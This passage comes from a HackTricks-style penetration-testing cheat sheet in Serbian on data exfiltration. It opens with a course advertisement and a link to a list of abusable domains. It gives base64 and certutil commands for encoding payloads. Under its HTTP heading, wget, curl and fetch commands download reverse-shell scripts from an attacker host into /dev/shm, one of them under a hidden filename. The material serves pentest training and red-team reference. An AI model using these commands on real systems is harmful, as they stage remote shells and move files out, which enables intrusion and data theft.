 # Exfiltration

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

**Try Hard Security Group**

<figure><img src="../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## Često beleženi domeni za izfiltriranje informacija

Proverite [https://lots-project.com/](https://lots-project.com/) da biste pronašli često beležene domene koje mogu biti zloupotrebljene

## Kopiranje\&lepljenje Base64

**Linux**

```bash
base64 -w0 <file> #Encode file
base64 -d file #Decode file
```

**Windows**

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

## HTTP

**Linux**

```bash
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```
